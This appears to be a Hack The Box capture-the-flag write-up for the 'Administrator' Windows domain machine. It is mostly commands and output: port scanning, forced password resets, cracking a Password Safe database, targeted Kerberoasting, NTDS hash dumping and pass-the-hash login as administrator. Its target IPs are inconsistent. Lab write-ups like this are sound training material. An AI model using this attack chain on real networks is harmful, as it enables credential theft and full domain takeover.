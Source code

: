 ```yaml
---
title: HTB Administrator - Writeup
description: Medium Windows Machine
date: 2025-04-01
image: cover.jpg
categories:
  - Writeups
tags:
  - HTB
  - Medium
  - Windows
---
```


### Enumeration

Let's start with a scan to all ports:

```sh
sudo nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.11.61 -oG allPorts
```

Here are the open ports

```sh
PORT      STATE SERVICE          REASON
21/tcp    open  ftp              syn-ack ttl 127
53/tcp    open  domain           syn-ack ttl 127
88/tcp    open  kerberos-sec     syn-ack ttl 127
135/tcp   open  msrpc            syn-ack ttl 127
139/tcp   open  netbios-ssn      syn-ack ttl 127
389/tcp   open  ldap             syn-ack ttl 127
445/tcp   open  microsoft-ds     syn-ack ttl 127
464/tcp   open  kpasswd5         syn-ack ttl 127
593/tcp   open  http-rpc-epmap   syn-ack ttl 127
636/tcp   open  ldapssl          syn-ack ttl 127
3268/tcp  open  globalcatLDAP    syn-ack ttl 127
3269/tcp  open  globalcatLDAPssl syn-ack ttl 127
5985/tcp  open  wsman            syn-ack ttl 127
9389/tcp  open  adws             syn-ack ttl 127
47001/tcp open  winrm            syn-ack ttl 127
```

once it's finished, grep the ports and copy them to later scan them with nmap looking out for the versions of the services hosted.

```sh

sudo nmap -sC -sV -p21,53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001 10.10.11.42 -oN targeted
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-11 16:52 EDT
Nmap scan report for 10.10.11.42
Host is up (0.26s latency).

PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-syst:
|_  SYST: Windows_NT
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-04-12 03:52:41Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

add the domain to your /etc/hosts file

```
10.10.11.61     administrator.htb dc.administrator.htb
```

Run netexec with the credentials from hackthebox

```sh
nxc winrm 10.10.11.42 -u Olivia -p ichliebedich

WINRM       10.10.11.42     5985   DC               [+] administrator.htb\olivia:ichliebedich (Pwn3d!)
```

Login to the machine using evil-winrm and run SharpHound to look for Attack paths

```sh
evil-winrm -i 10.10.11.42 -u olivia -p 'ichliebedich'
upload SharpHound.exe
```

Once you ingested the data in bloodhound, you can see that olivia has GenericAll meaning she has full control over michael's account

![Image 1](1.png)
And Michael Can ForceChangePassword of Benjamin

![Image 2](2.png)
To reset the password for these users you can use this commands

```sh
net rpc password "michael" 'P@ssw00rd!231!!!' -U "administrator.htb"/"Olivia"%'ichliebedich' -S dc.administrator.htb

net rpc password "benjamin" 'P@ssw00rd!555!!!' -U "administrator.htb"/"michael"%'P@ssw00rd!231!!!' -S dc.administrator.htb
```

### User Flag

With these accounts you can look for access to other services like smb or ftp

```sh
nxc ftp 10.10.11.42 -u benjamin -p 'P@ssw00rd!555!!!' --ls
FTP         10.10.11.42     21     10.10.11.42      [*] Banner: Microsoft FTP Service
FTP         10.10.11.42     21     10.10.11.42      [+] benjamin:P@ssw00rd!555!!!
FTP         10.10.11.42     21     10.10.11.42      [*] Directory Listing
FTP         10.10.11.42     21     10.10.11.42      10-05-24  09:13AM                  952 Backup.psafe3


nxc ftp 10.10.11.42 -u benjamin -p 'P@ssw00rd!555!!!' --get Backup.psafe3
```

this is a password database file that's protected by a master password, to crack that password you can use john the ripper

```sh
pwsafe2john Backup.psafe3 > psafe3.hash
john psafe3.hash --wordlist=/usr/share/wordlists/rockyou.txt

Using default input encoding: UTF-8
Loaded 1 password hash (pwsafe, Password Safe [SHA256 256/256 AVX2 8x])
Cost 1 (iteration count) is 2048 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
tekieromucho     (Backu)
```

with this password, open the database with passwordsafe

```sh
sudo apt install passwordsafe
pwsafe Backup.psafe3
```

you can login as emily with evil-winrm

```sh
evil-winrm -i 10.10.11.42 -u emily -p PASSWORD
*Evil-WinRM* PS C:\Users\emily\Desktop> type user.txt
XXXXXXXXXXXXXXXXXXXXXXXXXXX
```

### Root Flag

Looking for attack paths as emily in bloodhound you can find that she has GenericWrite access on Ethan's account, which means we can use this to do a targeted kerberoast attack to obtain the hash of ethan's account and crack it with johntheripper

![Image 3](3.png)
Use faketime to sync your time with the DC and targetedKerberoast to execute the attack
<https://github.com/ShutdownRepo/targetedKerberoast>

```sh
faketime "$(ntpdate -q dc.administrator.htb | grep -oP '\d{4}-\d{2}-\d{2} \d{2}:\d{2}:\d{2}')" python targetedKerberoast.py -d "administrator.htb" -u "emily" -p "XXXXXXXXXXXXXXXXXXXXX"
```

And crack the hash with john

```sh
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

Now that we have access to ethan's account, we can dump the hashes for the administrator and obtain the root flag

![Image 4](4.png)

```sh
nxc smb 192.168.1.100 -u ethan -p 'XXXXXXXXXXXXXX' --ntds --users administrator
```

Login with evil-winrm as administrator and get the flag

```sh
evil-winrm -i 10.10.11.42 -u administrator -H XXXXXXXXXXXXXXXXXXXXXXXXXX
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
```

### Conclusion

This machine covers topics like Kerberoasting, bloodhound, DCSync / Dump Hashes, GenericWrite, GenericAll,Password Cracking and Password Database leak

<mark>Hope you enjoy it and Happy Hacking!</mark>
